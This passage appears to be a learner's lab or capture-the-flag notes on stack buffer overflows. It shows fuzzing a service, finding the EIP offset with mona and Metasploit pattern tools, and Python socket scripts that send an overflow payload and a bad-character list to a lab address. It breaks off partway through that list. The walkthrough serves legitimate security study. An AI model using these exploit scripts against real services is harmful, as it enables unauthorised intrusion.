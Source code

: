 **It is worth using a Python script to try out different payloads to gain access! You can even use the files to locally try the exploit.**

- Maybe [tib3reus](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst) can help me..

- I know no python. I need to learn python.

##   Answer the questions below

Read the description.

**After testing for overflow, by entering a large number of characters, determine the EIP offset.**

- Set working folder in Immunity. ``!mona config -set workingfolder c:\mona\%p``
- Create a.py with ``print ("A" *5000)`` and then ``python3 a.py`` and paste into netcat ``nc -nv 192.168.0.24 9999``
- The EIP Register should be overwritten by A's (\x41) this is great we also have EBP overwritten. If we can control and overwrite the EIP we can control and point to something malicious. 
- ``msf-pattern_create -l 5000`` and send in netcat 
- note this code overwrites the EAX the ESP and the EIP. **note the EIP 31704330**
- ``msf-pattern_offset -l 5000 -q 31704330``
- exact match at offset 2012 as long as this finds a exact match we are good to go.

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- we control the EIP when its overwritten with the 4 B's 42424242
- find badchars
- https://github.com/cytopia/badchars
- update our code with the badchars variable

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
```